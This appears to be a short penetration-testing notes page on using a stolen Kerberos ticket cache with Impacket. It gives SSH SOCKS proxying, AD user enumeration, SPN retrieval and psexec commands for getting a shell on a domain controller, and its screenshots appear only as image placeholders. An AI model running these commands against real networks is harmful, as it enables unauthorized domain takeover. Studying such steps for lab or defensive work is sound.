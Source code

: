 # Using Kerberos with Impacket

## **Using Kerberos with Impacket**

### Scenario&#x20;

#### - Domain computer compromised (linux) - User Ccache file owned - Download the ccache into the attacker machine 

### Settings

#### Set Kerberos Env using the stolent ticket

![](<../../../../../.gitbook/assets/image (69) (1).png>)

#### Install krb5-user and add DC into hosts

![](<../../../../../.gitbook/assets/image (70).png>)

#### KRB5.conf configuration

![](<../../../../../.gitbook/assets/image (234).png>)

#### Proxychains

Edit the config file and comment the following line:

![](<../../../../../.gitbook/assets/image (170).png>)

![](<../../../../../.gitbook/assets/image (233).png>)

#### Sock Proxy

Create a sock Proxy on the target compromised linux box :

```csharp
ssh testme@10.110.0.74 -D 1080
```

### Enumerate AD users

```csharp
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator

```

![](<../../../../../.gitbook/assets/image (19) (1).png>)

### Get SPN&#x20;

```csharp
proxychains python3 GetUserSPNs.py -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator
```

### Get a shell

```csharp
proxychains python3 psexec.py -dc-ip 10.110.0.222 Administrator@dc02.CROOK.BADCORP.LOCAL -k -no-pass
```

![](<../../../../../.gitbook/assets/image (27) (1).png>)
